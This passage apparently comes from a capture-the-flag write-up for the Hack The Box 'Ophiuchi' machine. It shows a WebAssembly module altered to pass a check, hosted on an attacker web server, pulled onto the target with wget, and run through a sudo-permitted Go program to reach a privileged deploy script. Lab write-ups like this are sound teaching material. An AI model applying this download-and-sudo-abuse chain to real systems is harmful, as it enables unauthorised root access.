 ```default
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ wat2wasm main.wat > main.wasm
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$
```

Now that we have the final version of `main.wasm` we need to transfer it to the box in a directory we can write to and run the program. 

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

```

```default
admin@ophiuchi:/tmp$ wget http://10.10.14.16/main.wasm
--2021-09-14 20:17:27--  http://10.10.14.16/main.wasm
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 112 [application/wasm]
Saving to: ‘main.wasm’

main.wasm                     100%[==============================================>]     112  --.-KB/s    in 0s      

2021-09-14 20:17:27 (11.6 MB/s) - ‘main.wasm’ saved [112/112]

admin@ophiuchi:/tmp$
```

```default
admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
2021/09/14 20:18:04 exit status 127
exit status 1
admin@ophiuchi:/tmp$ 
```

Ready to deploy! We ran the code in the else statement. Next we need to create our own version of `deploy.sh` and we will be done. 
